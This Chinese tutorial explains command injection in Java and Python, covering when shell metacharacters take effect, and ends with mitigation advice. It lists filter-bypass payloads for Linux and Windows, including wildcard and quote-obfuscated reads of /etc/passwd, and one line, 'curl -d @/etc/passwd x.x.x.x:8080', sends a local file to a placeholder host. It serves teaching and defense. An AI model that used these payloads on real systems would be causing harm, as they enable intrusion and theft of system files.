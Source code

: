 - [命令注入](#命令注入)
  - [JAVA 中的命令注入](#java-中的命令注入)
  - [Python中的命令注入](#python中的命令注入)
    - [os.system](#ossystem)
    - [subprocess](#subprocess)
  - [Bypass](#bypass)
    - [Linux](#linux)
    - [通配符](#通配符)
    - [字符串拼接](#字符串拼接)
    - [\\ (回车)](#-回车)
    - [curl -d](#curl--d)
    - [反引号](#反引号)
    - [大括号](#大括号)
    - [Windows](#windows)
    - [特殊符号](#特殊符号)
    - [set变量](#set变量)
    - [切割字符串](#切割字符串)
  - [修复方案](#修复方案)
    - [过滤敏感字符](#过滤敏感字符)
    - [正确使用shell环境执行程序](#正确使用shell环境执行程序)

# 命令注入
## JAVA 中的命令注入
java常见的执行系统命令的方式主要是Runtime.exec或者直接new ProcessBuilder,Runtime.exec最终还是通过new ProcessBuilder#start来启动程序，因为在java中执行系统命令并不会自动创建shell，而是直接执行对应的可执行程序，所以代码中是否创建了shell决定了是否存在命令注入，因为我们用于命令注入的反义号（``）,||,&&等符号是在shell环境中才会被解析的，如果不在shell环境中这些符号也只是普通的字符串。  

其中字符串数组传参和字符串传参的方式类似，如果是字符串的方式会多一个切割的步骤分成字符串数组的形式,其中分割字符串的分隔符默认是`\t\n\r\f`.  。
![](img/10-50-15.png)  
最后都是创建ProcessBuilder对象传入字符数组作为命令参数。
![](img/10-46-42.png)  
最后在ProcessBuilder中要执行的命令以List列表的形式进行存储。
![](img/10-49-42.png)  
然后创建ProcessImpl对象来执行List中的命令，其中还包括了一些执行目录的赋值，
![](img/11-10-59.png)
可以看到在ProcessImpl中是取命令数组中的第一个值作为可执行文件路径的，最终通过一系列格式化最终得到我们输入的命令字符串。
![](img/11-13-33.png)  
然后将该字符串调用create方法使用native C语言才真正创建该程序进行执行
![](img/11-17-43.png)
使用的也是Win32接口CreateProcess方法，而通过该方法创建的程序是没有Shell执行环境的，即不解析常见的系统命令操作符号。
![](img/11-18-09.png)
* 没有创建shell的情况,已经固定了第一个执行程序为ping。
![](img/11-24-22.png)  
当传入`127.0.0.1&calc.exe`时。
![](img/11-25-57.png)  
因为ping命令并不解析`&`符号也不支持该参数,所有可以看到`127.0.0.1&calc.exe`会当作一个完整的参数传入，导致命令注入失败，但这种情况可能存在参数注入的情况,比如该执行程序存在其它可以利用的恶意参数值，如ping命令支持-m 参数，其中可以执行任意命令（如`ping 127.0.0.1 -m evilcmd`）。
当传入`127.0.0.1 &calc.exe`时。
![](img/11-32-48.png)
`&calc.exe`被当作一个完整的参数，无法被Ping解析，导致报错。

* 创建shell的情况
![](img/11-34-34.png)  
这种情况下由于第一个执行程序是一个shell程序，第一个参数后面的字符串挨个当作参数传入，所以我们的命令注入字符可以被shell程序成功解析，导致命令注入。
当传入`127.0.0.1&calc.exe`时。
![](img/15-00-53.png)  
![](img/15-01-23.png)  
由于cmd.exe成功解析&符号，所以该命令字符串`cmd.exe /c ping -n 4 127.0.0.1&calc.exe`在执行时，shell程序`cmd.exe`会将其解析为`ping -n 4 127.0.0.1`和`calc.exe`两条命令执行。
* 字符串完全可控
![](img/15-04-07.png)
这种情况下我们可以直接执行任意程序，也是存在命令注入。
## Python中的命令注入
在Python中主要有最简单的os.system，或者subprocess下的Popen或者run方法来执行命令。
### os.system
os.system默认是使用Shell环境创建执行程序的，所以如果执行命令是被拼接的那么则存在命令注入。
```python
import os
ip = '127.0.0.1&calc.exe'
cmd = "ping -n 4 "+ip
os.system(cmd)
```
calc.exe会被成功执行
### subprocess
subprocess默认情况下不使用shell环境执行程序，所以无法进行命令注入。
```python
import subprocess

ip = '127.0.0.1&calc.exe'
cmd = "ping -n 4 "+ip
result = subprocess.Popen(cmd, text=True)
print(result.stdout)
```
![](img/15-55-28.png)  
但也可以手动设置是否创建Shell环境，如果shell=True那么依然存在命令注入。
```python
import subprocess

ip = '127.0.0.1&calc.exe'
cmd = "ping -n 4 "+ip
result = subprocess.Popen(cmd, shell=True,text=True)
print(result.stdout)
```
![](img/15-56-42.png)
## Bypass
### Linux
区别大小写
### 通配符
`/???/c?t /?t?/p??swd` -> `cat /etc/passwd`
### 字符串拼接
1. python,java: + 
2. php, perl: .
3. 
```
a=who
b=ami
ab
```
### \ (回车)
1. `c\a\t /etc/passwd`
2. `c\ 回车 at /etc/passwd
### curl -d
curl -d 参数能够读取本地文件  
`curl -d @/etc/passwd x.x.x.x:8080`
### 反引号
```
``内的字符会被当成命令执行
```
### 大括号
{}代替空格  
`{ls,-alt}`
### Windows
不区分大小写
### 特殊符号
这些符号不会影响命令执行,
1. "
2. ^ 
3. ()
```
whoami //正常执行
w"h"o"a"m"i //正常执行
w"h"o"a"m"i" //正常执行
wh"“oami //正常执行
wh”“o^am"i //正常执行
((((Whoam”"i)))) //正常执行
```
### set变量
%%之间的变量会引用其值
```
set a=who
set b=ami
%a%%b%
```
### 切割字符串
截取字符串:
%a:~0,6%,取变量a的0到6的值
## 修复方案
### 过滤敏感字符
过滤命令注入常见字符
```
``
||
&&
;
```
### 正确使用shell环境执行程序
非必要情况下执行命令时不启用Shell环境